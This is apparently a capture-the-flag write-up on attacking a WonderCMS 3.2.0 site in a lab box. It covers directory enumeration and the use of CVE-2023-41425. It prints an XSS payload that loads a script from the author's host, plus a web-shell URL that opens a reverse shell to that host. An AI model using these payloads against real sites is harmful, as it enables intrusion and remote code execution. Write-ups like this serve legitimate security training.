```bash
[15:36:35] 200 -    1KB - /themes/bike/LICENSE
[15:36:41] 500 -    0B  - /themes/bike/mysql/admin/
[15:36:41] 500 -    0B  - /themes/bike/mysql/db/
[15:36:41] 500 -    0B  - /themes/bike/mysql/index.php
[15:36:51] 200 -  318B  - /themes/bike/README.md
[15:36:57] 200 -    1KB - /themes/bike/sitecore/content/home
[15:37:01] 200 -    1KB - /themes/bike/sym/root/home/
Added to the queue: themes/bike/sym/root/home/
[15:37:08] 200 -    6B  - /themes/bike/version
[15:37:08] 404 -  196B  - /themes/bike/version/
```

The README leaks this is running WonderCMS, the version leaks this is 3.2.0 and sending out a search for those we see [a CVE for XSS within this version of WonderCMS](https://www.cvedetails.com/cve/CVE-2023-41425/). The vulnerability is with the login URL so I checked if that URL is present in this webapp.

If you personally navigated around the page you will notice the way WonderCMS denotes what page to load is with the ?page= parameter. This can be seen by navigating to the "How to Participate" tab and reading the url of http://sea.htb/?page=how-to-participate. Deductively loginURL would exist as a page in this same scheme, and I head to http://sea.htb/?page=loginURL to verify this is vulnerable. 

![loginURL check if exists]({{ page.img }}_loginURL_page.png)

# User as amay

## Shell as www-data

### CVE-2023-41425

I [found this CVE-2023-41425 poc](https://github.com/prodigiousMind/CVE-2023-41425?tab=readme-ov-file) which should give a reverse shell when run. The exploit itself generates a payload to send the admin (through the contact form in this case) which has XSS to download a .js script and run it. 

```
http://sea.htb/index.php?page=loginURL?"></form><script+src="http://10.10.14.77:8000/xss.js"></script><form+action="
```

After running the script I setup my netcat aaaaand got nothing. The exploit did not work. I know it ought have worked given I know the version and CMS. I modified some parts of the code to make the raccoon theme and prepared the payloads but still nothing. I decide to check if the directory the exploit makes, revshell-main, even existed. And it did. I was hesitant as this could have been another user who placed this here, but after using it for a shell ***http://sea.htb/themes/revshell-main/rev.php?lport=7777&lhost=10.10.14.77*** I checked the date the directory was made:

```bash
$ ls -l themes
total 8
drwxr-xr-x 4 www-data www-data 4096 Feb 22 02:54 bike
drwxr-xr-x 2 www-data www-data 4096 Jul 31 15:17 revshell-main
```
